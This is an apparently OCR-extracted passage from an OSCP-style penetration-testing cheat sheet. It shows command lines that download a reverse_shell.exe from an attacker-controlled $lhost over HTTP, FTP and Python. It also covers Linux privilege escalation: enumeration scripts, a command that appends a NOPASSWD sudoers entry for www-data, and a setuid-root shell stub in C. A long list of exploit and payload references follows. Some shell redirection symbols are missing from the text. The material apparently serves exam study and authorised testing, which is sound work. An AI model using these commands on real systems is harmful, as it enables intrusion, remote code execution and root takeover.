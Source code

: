     echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))  wget.vbs
    echo Next  wget.vbs
    echo ts.Close  wget.vbs
    cscript wget.vbs http://$lhost:8000/reverse_shell.exe reverse_shell.exe
    ```
* WGET-Windows-FTP:
    ```batch
    echo open $lhost 21 ftp.txt
    echo USER anonymous ftp.txt
    echo anonymous ftp.txt
    echo bin  ftp.txt
    echo hash  ftp.txt
    echo GET reverse_shell.exe  ftp.txt
    echo bye  ftp.txt
    ftp -v -n -s:ftp.txt
    ```
* WGET-Python:
    ```batch
    python -c "import urllib; urllib.urlretrieve ('http://$url:8000/$filename', 'C:\$filename')"
    ```

* Hosting-HTTP:
    ```batch
    python3 -m http.server
    ```
* Hosting-FTP:
    ```batch
    python -m pyftpdlib -p 21(pip install pyftpdlib)
    ```

---

## Privilege Escalation - Linux
* linuxprivchecker.py [^1]
[^1]: [sleventyeleven](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py)
* linux-local-enum.sh[^2]
[^2]: [highon.coffee](https://highon.coffee/downloads/linux-local-enum.sh)
* LinEnum.sh [^3]
[^3]: [rebootuser](https://github.com/rebootuser/LinEnum)
* Pspy:
    ```batch
    ./pspy64 -pf -i 1000 -c  (Run this in another terminal/shell right after enum scripts)
    ```
* Check for writable folders:

    ```bash
    for directory1 in $(ls -lR 21 / | grep -v "Permission" |grep dr|grep xrw|grep -v "drwxrwxr-x"|grep -v driver|grep -v drv|grep -v ""|awk '{print $9}'); do for directory2 in $(find / -name $directory1 21|grep -v "Permission"); do ls -ld $directory2|grep xrw|grep -v ""; done; done
    ```
* ADD to sudoers command:
    ```bash
    echo '#!/bin/bash'  /tmp/addMeToSUDOERS
    echo 'echo "www-data ALL=NOPASSWD: ALL"  /etc/sudoers && chmod 440 /etc/sudoers'  /tmp/addMeToSUDOERS
    ```
* ADD to sudoers command:
    * ALTERNATIVE to ABOVE:
        ```c
        int main(void)
        { 
        setgid(0);
        setuid(0);
        execl("/bin/sh", "sh", 0); 
        }

[^4]: [g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^8]: [Memmodipper](https://www.exploit-db.com/exploits/18411)
[^9]: [chkrootkit](https://www.exploit-db.com/exploits/33899)
[^10]:  [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)
[^11]: [Amplia Security](https://www.ampliasecurity.com/research.html)
[^12]: [Foofus](http://foofus.net/goons/fizzgig/fgdump/downloads.htm)
[^13]: [neomh](https://github.com/neomh/cheat-sheets/blob/master/Commands)
[^14]: [Pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[^15]: [Vulnerabilityassessment.co](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
[^16]: [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials)
[^17]: [Escape from shellcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
[^18]: [ianthomasfry](https://ianthomasfry.blogspot.com/2017/05/oscp-exam-study-guide-i-first-steps.html)
[^19]: [Sec Juice](https://www.secjuice.com/oscp-prep-guidance/)
[^20]: [scund00r](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
[^21]: [backdoorshell](https://backdoorshell.gitbooks.io/oscp-useful-links/content/fuzzing.html)
[^22]: [0xc0ffee](http://0xc0ffee.io/blog/OSCP-Goldmine)
[^23]: [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/)
[^24]: [ihack4falafel](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Bookmark%20List.pdf)
[^25]: [kevsec](http://kevsec.fr/resources/)
[^26]: [futureoscp](http://futureoscp.blogspot.com/2017/10/usefull-oscp-material.html)
[^5]: [WindowsPrivCheck](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Upgrading%20half%20shells%20to%20fully%20interactive%20TTYs.pdf)
[^6]: [Accesschk](https://download.sysinternals.com/files/AccessChk.zip)
[^7]: [JAWS](https://github.com/411Hall/JAWS.git)
[^31]: [Exploit-db-130179](https://www.exploit-db.com/papers/13017)
[^32]: [hackingarticles](https://www.hackingarticles.in/5-ways-exploit-lfi-vulnerability/)
[^33]: [Graceful security](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
[^34]: [3mrgnc3](https://github.com/3mrgnc3/LFIter2/blob/master/win-fpaths.txt)
[^35]: [Ethical Hackers Club](https://www.youtube.com/watch?v=1fkgo4hsyp8)
[^36]: [HackMag](https://hackmag.com/security/hacking-mysql-databases-methods-and-tools/)